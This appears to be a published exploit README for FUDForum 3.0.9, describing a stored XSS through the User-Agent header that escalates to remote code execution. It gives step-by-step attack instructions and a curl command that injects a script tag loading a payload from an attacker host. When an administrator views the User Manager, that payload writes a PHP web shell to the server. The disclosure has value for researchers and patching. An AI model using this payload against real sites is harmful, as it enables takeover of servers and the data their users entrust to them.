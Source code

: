 # FUDforum-XSS-RCE
FUDForum 3.0.9 - Stored XSS / Remote Code Execution

- Date                  : 10/26/19
- Exploit Author        : liquidsky (JMcPeters)
- Vulnerable Software   : FUDForum 3.0.9
- Vendor Homepage       : http://fudforum.org/forum/
- Version               : 3.0.9
- Software Link         : https://sourceforge.net/projects/fudforum/
- Tested On             : Windows / mysql / apache
- Author Site           : http://incidentsecurity.com | demo: https://youtu.be/0gsJQ82TXw4
- CVE                   : TBD
- Patch / Fix           : https://sourceforge.net/p/fudforum/code/6321/

Greetz : wetw0rk, Fr13ndz, offsec

Description: FUDForum 3.0.9 is vulnerable to Stored XSS via the user-agent request header.
This may result in remote code execution. An attacker can use a user account to fully compromise the system using a GET request.
When the admin visits the user information under "User Manager" in the control panel the payload will execute.
This will allow for PHP files to be written to the web root, and for code to execute on the remote server. 

Notes: 

1. Register an account and log in to the forum. If you have an IP already associated with a registered user this is not required.
   This step is so when you run the XSS payload from your attacker machine it gets logged under the user activity.

2. Send the XSS payload below (from an IP associated with an account) / host the script:

- curl -A '<script src="http://attacker.machine/fud.js"></script>' http://target.machine/fudforum/index.php

3. When the admin visits the user information from the admin controls / User Manager the payload will fire under "Recent sessions", uploading a php shell on the remote system.
